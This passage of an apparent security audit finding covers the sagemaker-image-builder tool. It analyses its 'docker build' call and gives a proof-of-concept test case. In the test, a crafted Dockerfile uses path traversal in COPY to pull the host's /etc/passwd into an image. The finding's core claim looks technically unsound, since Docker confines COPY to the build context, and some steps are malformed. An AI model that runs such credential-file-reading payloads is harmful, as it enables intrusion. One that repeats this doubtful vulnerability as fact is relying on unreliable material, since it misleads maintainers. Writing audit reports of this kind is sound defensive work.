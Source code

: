     - Sandboxed Build Environment: Consider executing the Docker build process within a sandboxed or containerized environment. This would limit the potential damage if malicious artifacts are used, as the build process would be isolated from the host system.
    - Code Review: Conduct thorough security code reviews, specifically focusing on file handling, path processing, and Docker build execution, to identify and rectify potential vulnerabilities.
- **Preconditions:**
    - An attacker must be able to create a malicious `build_artifacts` folder with a crafted Dockerfile or other build artifacts.
    - A user must be persuaded to use the `sagemaker-image-builder` tool with the path pointing to this malicious `build_artifacts` folder.
- **Source Code Analysis:**
    - `sagemaker_image_builder/main.py`:
        - The `build_images` function in `main.py` orchestrates the image build process.
        - It uses `get_dir_for_version(target_version)` to determine the directory for build artifacts, which is based on user-provided `target_patch_version`.
        - The `_build_local_images` function is then called, which executes the `docker build` command.
        - The crucial part is that `docker build` is executed with the build context set directly to the `target_version_dir`, which originates from the user-provided `build_artifacts` folder.
        - ```python
          docker_build_command = ["docker", "build", "--rm", "--pull"] + build_arg_options + [f"./{target_version_dir}"]
          ```
        - There is no code present to validate or sanitize the contents of `target_version_dir` before it's used as the build context. This means if a malicious user crafts a `build_artifacts` folder with a Dockerfile containing path traversal, the `docker build` command will execute it as is.
- **Security Test Case:**
    - Step 1: Create Malicious Build Artifacts
        - Create a directory structure for malicious build artifacts:
          ```bash
          mkdir -p malicious_build_artifacts/v0/v0.0/v0.0.1
          ```
        - Create a malicious `Dockerfile` within the directory that uses path traversal to copy the host's `/etc/passwd` file into the image:
          ```bash
          echo "FROM alpine\nCOPY ../../../../../../../../../../../etc/passwd /tmp/passwd_leaked" > malicious_build_artifacts/v0/v0.0/v0.0.1/Dockerfile
          ```
    - Step 2: Create Dummy Image Configuration
        - Create a minimal `image_config.json` file:
          ```json
          echo '[{"image_name": "test-image", "build_args": {}, "env_out_filename": "cpu.env.out", "image_type": "cpu"}]' > image_config.json
          ```
    - Step 3: Run `sagemaker-image-builder build` with Malicious Artifacts
        - Execute the `sagemaker-image-builder build` command, specifying the malicious `build_artifacts` folder indirectly through `target-patch-version` and relying on default `build_artifacts` base path.
          ```bash
          sagemaker-image-builder build --target-patch-version 0.0.1 --image-config-file image_config.json
          ```
    - Step 4: Run the Built Docker Image
        - Execute the newly built Docker image:
          ```bash
          docker run test-image:0.0.1 cat /tmp/passwd_leaked
          ```
    - Step 5: Verify Path Traversal
        - Check the output of the `docker run` command. If the `/etc/passwd` file content is displayed, it confirms that the path traversal in the malicious Dockerfile was successful, and the host's `/etc/passwd` file was copied into the container. This demonstrates the vulnerability.